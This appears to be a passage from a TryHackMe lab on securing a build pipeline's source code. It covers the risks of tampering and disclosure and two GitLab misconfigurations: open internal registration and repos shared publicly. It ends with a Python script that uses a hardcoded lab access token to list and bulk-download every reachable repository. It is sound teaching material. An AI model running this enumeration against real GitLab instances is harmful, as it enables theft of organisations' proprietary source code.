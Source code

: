 ### Source Code Security -

The **first step to securing the pipeline and the build is to secure the source**. In the event that a threat actor can compromise the source of our build, they are in a position to compromise the build itself. We want to protect our source code from the following two main issues:

- _**Unauthorised Tampering**_ - This is the simplest issue of the two. Only authorised users should be able to make changes to the source code. This means that we want to control who has the ability to push new code to our repo.
- _**Unauthorised Disclosure**_ - This is a bit more tricky. Depending on the application, the source code itself might be considered sensitive. For example, Microsoft would not like to disclose the source code of Word since that is their intellectual property. In cases where the source code is sensitive, we must ensure we do not intentionally disclose it. This issue is a lot more common to find.

### Confusion of responsibilities -

**First misconfiguration**

_One such mistake is that organisations can leave registration for their Gitlab instance open. Not open to the internet (although this has also happened before), but open to any user on their internal network to register a profile. This was simulated in the previous task by allowing you to register your own Gitlab profile._

An organisation might have 10,000 employees, of which 2000 may be working as developers and need access to Gitlab. In essence, our attack surface has grown by 500%! **_If a single employee of our bank is compromised, an attacker would have the ability to register a profile and exfiltrate any publicly shared repos._**

**Second misconfiguration**

Developers of our bank may believe that because the Gitlab instance is only accessible internally, it is okay to configure repos to be shared publicly. This means that any user who has a valid Gitlab account will be able to view the repo. While they may perhaps not be able to alter the code, remember, in this example, the code itself is seen as the IP of the bank. This confusion between who is responsible for securing the source code can lead to sensitive information being disclosed to the threat actor. Let's take a look at how this can be exploited!

### Exploiting a vulnerable build source -

To efficiently enumerate publicly visible repos, we will make use of the Gitlab API and a Python script as follows:

```python
import gitlab
import uuid

# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='glpat-kRQ4GbynTxySZRJLLx7w')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
```